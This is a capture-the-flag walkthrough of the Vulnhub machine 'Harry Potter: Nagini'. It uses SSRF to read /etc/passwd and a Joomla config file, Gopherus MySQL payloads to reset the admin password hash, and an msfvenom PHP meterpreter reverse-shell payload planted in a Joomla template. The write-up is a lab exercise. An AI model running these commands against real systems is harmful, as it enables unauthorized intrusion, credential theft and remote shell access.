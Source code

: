 # Walkthrough VULNHUB --> HARRY POTTER: NAGINI

First step is to scan our Netwok to find the machine IP, in my case the host has ip 192.168.1.172.

We use nmap to scan the target machine with the command:

```bash
nmap -sC -sV -p- 192.168.1.174
```

![Alt text](./img/nmap.PNG?raw=true "NMAP Results")

I navigate to the web page to see what it is and to check if we find any visible vulnerability on that page.

![Alt text](./img/web_page_port80.PNG?raw=true "Port 80")

We run a scan on the port 80 with gobuster to search for interesting things.

```bash
gobuster dir --url http://192.168.1.174 -x .php,.js,.txt,.html --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50
```

![Alt text](./img/gobuster.PNG?raw=true "GOBUSTER SCAN")

We start browsing the /note.txt and we find as follow:

```
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

**WE NEED HTTP3!!!!!**

We also need to add **quic.nagini.hogwarts** in our **/etc/hosts**.

After spending some time on internet trying to figure out how to use this http3, I found this guide to enable **curl** with http3 support.

[https://github.com/curl/curl/blob/master/docs/HTTP3.md](https://github.com/curl/curl/blob/master/docs/HTTP3.md)

**NOW I built a new curl with http3 support**

Using curl we do a GET request on https://quic.nagini.hogwarts:

```bash
./curl --http3 https://quic.nagini.hogwarts
```

![Alt text](./img/http3.PNG?raw=true "CURL HTTP3")

We retrieve 2 important informations:
1 /internalResourceFeTcher.php
2 .bak

Let's see what is /internalResourceFeTcher.php

![Alt text](./img/internalFetcher.PNG?raw=true "/internalResourceFeTcher.php")

Let's try to search for a and see the result.

![Alt text](./img/a.PNG?raw=true "/internalResourceFeTcher.php search")

Noted something?

The search append in the url **?url=a**, so let's try to see if there is any **SSRF** vulnerability using in the url **file:///etc/passwd**

```bash
curl http://192.168.1.174/internalResourceFeTcher.php?url=file:///etc/passwd
```

![Alt text](./img/passwd.PNG?raw=true "/etc/passwd")

As you might have noticed, in the webserver there is Joomla, so now let's see if we can access to Jumla configuration file.

```bash
curl http://192.168.1.174/internalResourceFeTcher.php?url=file:///var/www/html/joomla/configuration.php
```

![Alt text](./img/config.PNG?raw=true "/var/www/html/joomla/configuration.php")

Searching on Google "SSRF exploit mysql",
![Alt text](./img/google.PNG?raw=true "Google search")
I found my answers in [Gopherus](https://github.com/tarunkant/Gopherus)

First step with Gopherus is to create a payload that give us the table list so using the command **use joomla; show tables;**.
![Alt text](./img/showTables.PNG?raw=true "SHOW Tables payload")

Appending the payload to curl, does not work.

So, I try to add the payload on the url in the browser. It seems that doesn't work either.

**At the end I pasted the payload in the search and submitted by clicking on Fetch**

If you don't see anything refresh the page, it can take few refresh before something is displayed.

![Alt text](./img/1Try.PNG?raw=true "List Tables")

As you can see we can display the tables and we can see that there is a joomla_users table, which we are going to see next by creating another payload with Gopherus as done previously.

The command we are going to run is:

```sql
USE joomla; SELECT * FROM joomla_users
```

We could list the users and find the user **site_admin** and it's password.
![Alt text](./img/joomla_users.PNG?raw=true "Joomla Users")

After trying a lot of MD5 decoder, I decided to create another payload to change the password using **password1234**, so it's hased is **bdc87b9c894da5168059e00ebffb9077**.

Our command will be then:

```sql
use joomla; update joomla_users set password = 'bdc87b9c894da5168059e00ebffb9077' where username='site_admin';select * from joomla_users;
```

![Alt text](./img/newP.PNG?raw=true "New Password")

We are now able to login in the Joomla's administration portal, by going to http://192.168.1.174/joomla/administrator

![Alt text](./img/joomlaAdminLogin.PNG?raw=true "Admin Login")

We can insert **super_admin**/**password1234** and we're in!

![Alt text](./img/adminPage.PNG?raw=true "Admin Page")

We can now modify a template adding a payload that we are going to generate with **msfvenom**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f raw -o test.php
```

![Alt text](./img/msfVenom.PNG?raw=true "MSFVENOM")

Let's start **msfconsole** using **explit/multi/handler** and setting up the payload as **php/meterpreter/reverse_tcp**

![Alt text](./img/msf.PNG?raw=true "MSFCONSOLE")

Next step will be to copy the content of test.php into our joomla template, so let's see what is inside our payload:

```bash
cat test.php
```

![Alt text](./img/payload.PNG?raw=true "Payload")

Now we move into the Admin console and we navigate till the Template editor.

![Alt text](./img/editTemplate.PNG?raw=true "Edit Template")

We are going now to paste our payload in line 9 and we save.

![Alt text](./img/editedTemplate.PNG?raw=true "Edited Template")
